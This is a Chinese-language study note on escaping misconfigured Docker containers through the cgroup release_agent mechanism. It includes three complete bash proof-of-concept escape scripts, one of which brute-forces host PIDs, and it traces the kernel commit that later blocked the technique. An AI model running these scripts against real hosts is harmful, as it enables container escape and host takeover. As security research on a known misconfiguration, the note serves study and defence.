

# 关于 Docker Release Agent 相关的逃逸以及其基础知识

[[reference#Hacktricks - Docker Escape]] 我觉得写的利用方法非常全了 除了没有介绍更多的 Docker 技术和 内核相关更多的原理外 已经算是较为完善的了. 同时我也有做过一些贡献.
>[[reference#Hacktricks#Docker Basic]] 介绍了几乎全部本文档的内容 
>(尽管我几乎写完整篇文章之后才看到了它)
>后悔 非常的后悔.

首先我并不认为并不认为这是一个漏洞 而是一个 Docker Misconfig 的提权方法 类似 LoLBins
需要对方设置 类似 `--cap-add=SYS_ADMIN --security-opt apparmor=unconfined --privilege` 一类的特殊属性 而且这些也是被 [[reference#Docker Official Security Document]] 明确被认为是不安全的

## 前置知识
[[docker]] 
**[[cgroup]]**

## 逃逸方案 release_agent

核心原理一言以弊之, 利用`cgroup 中子系统任务完全结束会 而且在 notify_on_release 被置为 1 时 kernel 会执行 release_agent 中的脚本`的特性, 恶意布置容器内 cgroup 子系统的内容 借助 kernel 之手高权限地去执行脚本 最后导致逃逸到宿主机上面。

> 而至于这个特性的产生 我尝试阅读了 linux kernel code 和 blackhat 的 video 我发现了[[cgroup - kernel code]] 这个东西.

但是针对 docker 系统资源进行管理/调配 (例如控制改变 cgroup 或者挂载等等) 是需要宿主机高权限的. 而 docker 容器的安全策略配置错误就可以帮助我们 比如使用了 [[docker#特权模式]] 或者加入 错误的 [[capability]]  `CAP_SYS_ADMIN`  , 错误配置了 [[apparmor]] 的权限 (默认是 docker-default 直接为空即可) 之后导致的权限滥用  

CAP_SYS_ADMIN 所起的作用是进行 mount 和 cgroup 修改

所以我们需要做的就是

1. 定位出我们文件系统所在的位置 /etc/mtab 或者说 /proc/[digits]/mounts 可以帮助我们确定 upperdir 的位置
2. 挂载 cgroup 子目录
3. 构造恶意脚本 reverse shell 
4. 写入目标文件 release_agent 加入自己的恶意脚本名称
5. 创建一个快速释放的进程并且将其进程号写入 task
然后内核就会完成剩下几步进行命令执行



而这里一般有 三个版本的 POC

### 第一个版本
这个版本采用的是普通的带 privileged 参数的 docker

`docker run --privilege -it ubuntu /bin/bash`

> 这种其实也可以是 mount 出 主机所在的块设备 chroot 进行逃逸

这里是第一版本的 POC

```bash
cgroup_dir=`dirname $(ls -x /s*/fs/c*/*/r* |head -n1)`
# also to /sys/fs/cgroup/rdma/release_agent 
mkdir -p $cgroup_dir/test_subsystem
echo 1 >$cgroup_dir/test_subsystem/notify_on_release
host_overlay2_fs_dir=`sed -n 's/.*\upperdir=([^,]_)._/\1/p' /etc/mtab`
echo '#!/bin/sh' > /script
echo "touch /hacked_by_tunan_use_cg_notify_on_release_and_privileged_containter" >> /script
echo "$host_overlay2_fs_dir/script" > $cgroup_dir/release_agent
chmod a+x /script
sh -c "echo \$\$ > $cgroup_dir/test_subsystem/cgroup.procs"
```

### 第二个版本
这个版本相比之前需要的权限更为低一点 

所以这里 poc 也合适于上一个版本 

`docker run --cap-add=SYS_ADMIN --security-opt apparmor=unconfined -it ubuntu /bin/bash`

``` bash
mkdir /tmp/cgroup && mount -t cgroup -o rdma cgroup /tmp/cgroup  
# 增加挂载cgroups文件系统操作
cgroup_dir=/tmp/cgroup  
# 修改cgroup_dir对应目录路径
mkdir -p $cgroup_dir/test_subsystem_1
echo 1 > $cgroup_dir/test_subsystem_1/notify_on_release
host_overlay2_fs_dir=`sed -n 's/.*\upperdir=\([^,]*\).*/\1/p' /etc/mtab`
echo '#!/bin/sh' > /script
echo "touch /hacked_by_tunan_use_cg_notify_on_release_and_sys_admin_containter" >> /script
echo "$host_overlay2_fs_dir/script" > $cgroup_dir/release_agent
chmod a+x /script
sh -c "echo \$\$ > $cgroup_dir/test_subsystem_1/cgroup.procs"
```


## 第三个版本
以上两个版本需要知道在容器的绝对路径

但是如果没有 或者找不到这个路径

我们可以用这个 payload

看到这个 payload 真的 我直呼好骚

```bash
#!/bin/sh
# 定义基本的变量 确定好自己几个目录在容器内的相对位置
OUTPUT_DIR="/"
MAX_PID=65535
CGROUP_NAME="xyx"
CGROUP_MOUNT="/tmp/cgrp"
PAYLOAD_NAME="${CGROUP_NAME}_payload.sh"
PAYLOAD_PATH="${OUTPUT_DIR}/${PAYLOAD_NAME}"
OUTPUT_NAME="${CGROUP_NAME}_payload.out"
OUTPUT_PATH="${OUTPUT_DIR}/${OUTPUT_NAME}"

# Run a process for which we can search for (not needed in reality, but nice to have)
sleep 10000 &

# Prepare the payload script to execute on the host
cat > ${PAYLOAD_PATH} << __EOF__
#!/bin/sh

OUTPATH=\$(dirname \$0)/${OUTPUT_NAME}

# Commands to run on the host<
ps -eaf > \${OUTPATH} 2>&1
__EOF__

# Make the payload script executable
chmod a+x ${PAYLOAD_PATH}

# Set up the cgroup mount using the memory resource cgroup controller
mkdir ${CGROUP_MOUNT}
mount -t cgroup -o memory cgroup ${CGROUP_MOUNT}
mkdir ${CGROUP_MOUNT}/${CGROUP_NAME}
echo 1 > ${CGROUP_MOUNT}/${CGROUP_NAME}/notify_on_release

# Brute force the host pid until the output path is created, or we run out of guesses
TPID=1
while [ ! -f ${OUTPUT_PATH} ]
do
  if [ $((${TPID} % 100)) -eq 0 ]
  then
    echo "Checking pid ${TPID}"
    if [ ${TPID} -gt ${MAX_PID} ]
    then
      echo "Exiting at ${MAX_PID} :-("
      exit 1
    fi
  fi
  # Set the release_agent path to the guessed pid
  echo "/proc/${TPID}/root${PAYLOAD_PATH}" > ${CGROUP_MOUNT}/release_agent
  # Trigger execution of the release_agent
  sh -c "echo \$\$ > ${CGROUP_MOUNT}/${CGROUP_NAME}/cgroup.procs"
  TPID=$((${TPID} + 1))
done

# Wait for and cat the output
sleep 1
echo "Done! Output:"
cat ${OUTPUT_PATH}
```

[[proc]] 是一个模拟的文件系统 同时容器内这部分其实是挂载的 (一般情况是只读系统 但是 --privileged 肯定不是什么一般情况)

也就意味着 这个 sleep 形成的进程 在 自己 和 主机之间是某种意义上共有的. 我们可以爆破 path 的 pid `/proc/<pid>/root/payload.sh`，每次迭代将猜测的 pid 路径写入 该 pid 所有的 cgroups`release_agent`文件，触发 `release_agent`，并查看是否创建了输出文件

这里通过检查 PID 来进行检查 他下面的 root -> / 映射该进程下的真实文件系统的一个视图 也包括被隔离的部分

### 实验复现时的问题

我发现我的 Kali 在运行上述 poc 进行复现的时候并不能复现问题 尽管是已经给予了 `--privileged` 但是仍然逃逸不出来

在一步步尝试 中 我发现他有一个报错 `Setting release_agent not allowed`

而且无论是上述哪个 poc 都运行不了

于是我把实验机器换成了自己的 腾讯云 VPS, 没有任何改动, 所有的 POC 都正常工作了

我留意到两个系统内核版本和编译时间相差甚远

在翻找了 linux 内核源码时我发现了如下的文件 在其 972 行中发现了 对应的输出字符串 `Setting release_agent not allowed`

https://github.com/torvalds/linux/blame/master/kernel/cgroup/cgroup-v1.c#L972

git blame 一手发现其相关行变更的最后一个提交是

https://github.com/torvalds/linux/commit/24f6008564183aa120d07c03d9289519c2fe02af

于是这个修复彻底堵塞了高版本内核下的 docker release_agent 逃逸的可能

并且其于 今年 2 月 2 日加入 主分支

也就是内核版本 [v5.17-rc3](https://github.com/torvalds/linux/releases/tag/v5.17-rc3) 与 [v5.17-rc2](https://github.com/torvalds/linux/releases/tag/v5.17-rc2) 之间 被打包进入 rc3

也就是 5.16.X 之前都会有问题 rc 是发布前

而我的 kali 是 4 月 1 日编译的 最近刚刚发布

而腾讯云 VPS 是 2021 年 9 月的编译

就是因为这几个版本的差别 堵死了漏洞利用

> 另外 debian 虽然稳定 但是他们会改内核 ... 所以在版本上略微不准 可以跟随编译时间 加以判断.

## 其他方法

1. mount 设备 /dev/sda1 (也有可能是其他的磁盘 有一些可能是虚拟磁盘) 直接 chroot 进入宿主机主机
2. 敏感 proc 目录挂载导致的意外读写 控制内核在进行释放或者
3. kernel exploit in shared memory to trigger kernel to execute 
> 例如 dirtycow Copy on write 针对 Vdso 虚拟动态共享对象

# Wrap up
## 逃逸
docker 中两个没有被隔离的东西:
1. 未被良好分离的资源
> 这里包括但不限于挂载 链接
3. 内核

所以只要我们从这两个地方入手, 就很容易发现逃逸的核心原理

接下来对于安全策略什么的都只是限制我们达到目的障碍而已, 只要合理规避或者干掉这些策略就可以让我们达到逃逸出去的核心地方.

## 后记
此外, 我认为容器逃逸可以被抽象为 `信息+滥用` 的过程
收集容器中必要的信息 包括但不限于 权限多大 什么内核 可以操作什么 对方有无挂载等信息
加以一定的先验知识 在这里需要 docker 与 linux 内核的一些知识
推理并且构造出有效利用这些信息的方法造成更大的危害

不过其实我更感兴趣的事是 是什么启发了他们 可以利用或者发现了 release_agent 这种方式.
release_agent 本是内核用来处理 cgroup 中子系统任务完成后退出 或者说 废弃 cgroup 之后的处理方案 是让 shell 去处理删掉废弃的文件和任务 进行清理的 但是很明显处理 release_agent 的权限没有被内核良好处理

